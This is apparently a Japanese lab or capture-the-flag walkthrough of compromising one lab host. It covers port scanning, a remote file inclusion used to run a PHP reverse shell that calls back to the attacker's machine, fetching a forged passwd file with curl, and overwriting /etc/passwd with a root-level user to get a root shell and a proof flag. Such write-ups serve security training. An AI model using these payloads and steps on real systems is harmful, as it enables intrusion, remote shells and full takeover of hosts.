1.  列挙   
初回ポートスキャン    
```
nmap -Pn -n -vvv -sV -oA nmap/intial 10.11.1.35
```
開いているポートに対して詳細なスキャン
```
nmap -Pn -sC -sV -p 22 80 -oA base_secipt 10.11.1.35 
```
脆弱性調査
```
nmap -Pn --script=vuln -oA nmap/vuln 10.11.1.35
```
nikto
```
nikto -h 10.11.1.35 
```
RFI
```
http://10.11.1.35/section.php?page=../../../../../../etc/passwd
```
reverseshellファイルを作る

```
<?php shell_exec(" /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.119.139/4444 0>&1' ");
```
リスナー起動
pythonでサーバーを建てる
URLでファイルを実行
```
http://10.11.1.35/section.php?page=http://192.168.119.139:8000/reverseshell.txt
```
```
nc -lvnp 4444                           
listening on [any] 4444 ...
connect to [192.168.119.139] from (UNKNOWN) [10.11.1.35] 42880
bash: no job control in this shell
bash-4.2$ls -la /etc/passwd
```
/etc/passwdに書き込み権限がある？   

特権昇格   
/etc/passwdを作成しroot権限をもつユーザーを作成し追加する   
ユーザーのパスワード生成   
```
openssl passwd -1  -salt hack pass123
$1$hack$22.CgYt2uMolqeatCk9ih/
```
passwdに「hack」ユーザー追記   
追記する際、余計な空白や改行がはいらないようにする   
```
hack:$1$hack$22.CgYt2uMolqeatCk9ih/:0:0:root:/root:/bin/bash
```
passwdファイルをサーバーにアップする
```
bash-4.2$ curl -O http://192.168.119.139:8000/passwd
curl -O http://192.168.119.139:8000/passwd
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   978  100   978    0     0   1799      0 --:--:-- --:--:-- --:--:--  1801
```
管理者権限で実行されるコマンドを検索
```
bash-4.2$ find / -perm -4000 -type f 2>/dev/null
```
ｃｐコマンドでpasswdファイルを/etc/passwdに上書きする
```
bash-4.2$ cp passwd /etc/passwd
cp passwd /etc/passwd
bash-4.2$ tail -n 4 /etc/passwd
tail -n 4 /etc/passwd
postfix:x:89:89::/var/spool/postfix:/sbin/nologin 
chrony:x:998:996::/var/lib/chrony:/sbin/nologin 
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
hack:$1$hack$22.CgYt2uMolqeatCk9ih/:0:0:root:/root:/bin/bash
```
hackユーザになりproof.txtゲット
```
bash-4.2$ su hack
Password: 
[root@pain k]# id
uid=0(root) gid=0(root) groups=0(root)
[root@pain k]# whoami
root
[root@pain k]# cat /root/proof.txt
99d8f4f10cf80eed5cb67e73e8b60a3d
```
